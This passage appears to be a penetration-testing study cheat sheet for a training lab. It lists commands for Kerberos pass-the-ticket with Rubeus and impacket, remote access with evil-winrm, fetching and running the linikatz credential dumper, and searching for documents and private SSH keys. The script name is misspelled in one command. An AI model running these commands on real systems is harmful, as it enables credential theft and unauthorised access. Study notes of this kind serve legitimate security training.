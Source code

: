 #### Using Evil-WinRM with Kerberos
```Shell
proxychains evil-winrm -i dc01 -r inlanefreight.htb
```

### Miscellaneous

#### Impacket Ticket Converter
```Shell
impacket-ticketConverter krb5cc_647401106_I8I133 julio.kirbi
```
If we want to use a ccache file in Windows or a kirbi file in a Linux machine. Specify the file we want to convert and the output filename.

#### Importing Converted Ticket into Windows Session with Rubeus
```cmd.exe
Rubeus.exe ptt /ticket:c:\tools\julio.kirbi
```

### Linikatz

#### Linikatz Download and Execution
```Shell
wget https://raw.githubusercontent.com/CiscoCXSecurity/linikatz/master/linikatz.sh
```

```Shell
./linukatz.sh
```


## Protected Files

#### Hunting for Encoded Files
```Shell
for ext in $(echo ".xls .xls* .xltx .csv .od* .doc .doc* .pdf .pot .pot* .pp*");do echo -e "\nFile extension: " $ext; find / -name *$ext 2>/dev/null | grep -v "lib\|fonts\|share\|core" ;done
```

#### Hunting for SSH Keys
```Shell
grep -rnw "PRIVATE KEY" /* 2>/dev/null | grep ":1"
```

#### Encrypted SSH Keys
```Shell
cat /home/cry0l1t3/.ssh/SSH.private
```
Most SSH keys we will find nowadays are encrypted. We can recognize this by the header of the SSH key because this shows the encryption method in use.

### Cracking with John
